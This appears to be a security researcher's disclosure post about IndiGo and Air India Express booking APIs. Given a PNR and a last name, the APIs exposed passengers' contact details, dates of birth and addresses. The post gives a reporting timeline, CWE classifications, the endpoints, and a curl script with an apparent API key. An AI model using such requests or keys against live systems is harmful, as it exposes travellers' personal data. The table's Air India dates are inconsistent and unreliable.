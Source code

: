 ```yaml
---
title: Indigo Vulnerability 2022-2024 and Air india vulnerability 2025
date:
  created: 2025-08-13
  updated: 2025-09-12
---
```


Interglobe Indigo's manage booking portal(<https://www.goindigo.in/edit-booking.html>) and Air India Express (<https://www.airindiaexpress.com/manage>)
leaked a passenger's number, email, date of birth
address and emergency contact information by a PNR and name of a passenger. Even though the content is masked in the UI,
the network activity shows the full data.

This was originally reported to Indigo in 2022 but was not fixed.

- Tweet by [@_sirius93](https://twitter.com/_sirius93_) exposing this vulnerability in 2022 <https://twitter.com/_sirius93_/status/1508423479594733568>
- Tweet by Indigo denying this and not fixing the issue <https://twitter.com/IndiGo6E/status/1508748146717130758>
- News covering this incident

      - <https://economictimes.indiatimes.com/magazines/panache/how-indigo-passenger-hacked-into-carriers-website-to-track-his-missing-luggage-airline-responds/articleshow/90567643.cms?from=mdr>
      - <https://www.bbc.com/news/world-asia-india-60937480>
      - <https://www.ndtv.com/offbeat/indigos-response-after-techie-hacks-website-to-find-lost-luggage-2853781>
      - <https://www.livemint.com/news/india/passenger-hacks-indigo-s-website-to-find-lost-bag-airline-responds-11648690601840.html>

After reporting via email to Indigo in July 2024, an incomplete fix was implemented.

After reporting to CERT in November 2024, Indigo implemented a complete fix.

Air India warns its customers to not display PNR online in its tweets and asks them to share it via DMs.

Summary of the vulnerabilities:

| Sr | API  | Date reported | Date fixed | Days taken | CERT-in reference number |
|----|------|---------------|------------|------------|--------------------------|
| 1  | [Indigo itinerary](#1-indigo-itinerary)  | 28 March 2022, 22 July 2024, 23 November 2024 | December 2024 | 1009, 162, 39 | 64401624 |
| 2  | [Air India RetrieveData](#2-air-india-retrievedata)  | 2 August 2025 | September 2024 | 30 | 25019125 |

Root cause in [OWASP](https://cheatsheetseries.owasp.org/index.html) terms:

- A01 2021 Broken Access Control: CWE-284 Improper Access Control, CWE-285 Improper Authorization
- A07 2021 Identification and Authentication Failures: CWE-287 Improper Authentication, CWE-613 Insufficient Session Expiration

<!-- more -->

### 1. Indigo itinerary

The body was a simple json with PNR and last name.

```text
https://api-prod-itinerary-skyplus6e.goindigo.in/v1/itinerary
```

<details>
<summary> Sample response</summary>
```json linenums="1" hl_lines="750-820"
---8<--- "docs/vuln/posts/content_indigo/indigo_vuln_1.json"
```
</details>

### 2. Air India RetrieveData

```bash title="sample_script.sh" linenums="1" hl_lines="5"
time=$(date '+%F_%T')
curl 'https://api.airindiaexpress.com/b2c-CheckIn/v2/mmb/retrieve/byRecordLocator' \
  -X POST \
  -H 'Ocp-Apim-Subscription-Key: fe65ec9eec2445d9802be1d6c0295158' \
  --data-raw '{"addtnlDetail":"$$$$$$$$$$","recordLocator":"$$$$$$$$$$","sessionType":"WebAnonUser"}' \
  -o bookings_$time.json
```

<details>
<summary> Sample response</summary>
```json linenums="1" hl_lines="119-190"
---8<--- "docs/vuln/posts/content_indigo/air_india_vuln_1.json"
```
</details>
